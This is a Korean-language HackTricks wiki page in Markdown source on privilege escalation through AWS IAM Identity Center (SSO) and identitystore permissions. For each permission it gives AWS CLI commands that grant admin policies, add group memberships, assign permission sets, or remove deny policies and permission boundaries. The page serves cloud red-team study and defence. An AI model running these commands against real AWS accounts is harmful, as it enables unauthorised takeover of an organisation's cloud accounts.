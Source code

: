 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSO에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
기본적으로 **Management Account**에서 **권한**이 있는 **사용자**만 IAM Identity Center에 접근하고 **제어**할 수 있습니다.\
다른 계정의 사용자는 해당 계정이 **Delegated Administrator**인 경우에만 허용할 수 있습니다.\
[자세한 내용은 문서를 확인하세요.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~비밀번호 재설정~~

이와 같은 경우 권한을 상승시키는 쉬운 방법은 사용자의 비밀번호를 재설정할 수 있는 권한을 가지는 것입니다. 불행히도 사용자의 비밀번호를 재설정하기 위해 이메일을 보내는 것만 가능하므로 사용자의 이메일에 접근할 필요가 있습니다.

### `identitystore:CreateGroupMembership`

이 권한을 사용하면 사용자를 그룹에 추가하여 그룹이 가진 모든 권한을 상속받을 수 있습니다.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

이 권한을 가진 공격자는 자신의 통제 하에 있는 사용자에게 부여된 권한 세트에 추가 권한을 부여할 수 있습니다.

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

이 권한을 가진 공격자는 자신의 통제 하에 있는 사용자에게 부여된 권한 세트에 추가 권한을 부여할 수 있습니다.

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

이 권한을 가진 공격자는 자신의 통제 하에 있는 사용자에게 부여된 Permission Set에 추가 권한을 부여할 수 있습니다.

{% hint style="warning" %}
이 경우 이러한 권한을 악용하려면 **영향을 받을 모든 계정에 있는 고객 관리 정책의 이름**을 알아야 합니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

이 권한을 가진 공격자는 자신의 통제 하에 있는 사용자에게 계정에 대한 권한 세트를 부여할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

사용자에게 할당된 특정 역할 이름에 대한 STS 단기 자격 증명을 반환합니다.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

그러나, 어떻게 접근 토큰을 얻는지 확실하지 않습니다 (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

이 권한을 가진 공격자는 지정된 권한 세트에서 AWS 관리 정책과의 연관성을 제거할 수 있습니다. **관리 정책을 분리함으로써 (거부 정책)** 더 많은 권한을 부여하는 것이 가능합니다.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

이 권한을 가진 공격자는 지정된 권한 세트에서 고객 관리 정책과의 연관성을 제거할 수 있습니다. **관리 정책(거부 정책)을 분리함으로써** 더 많은 권한을 부여할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

이 권한을 가진 공격자는 권한 세트에서 인라인 정책의 권한을 제거할 수 있습니다. 인라인 정책(거부 정책)을 분리하여 **더 많은 권한을 부여하는 것이 가능합니다**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

이 권한을 가진 공격자는 권한 세트에서 Permission Boundary를 제거할 수 있습니다. Permission Boundary에서 제공된 권한 세트의 제한을 제거함으로써 **더 많은 권한을 부여할 수 있습니다**.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
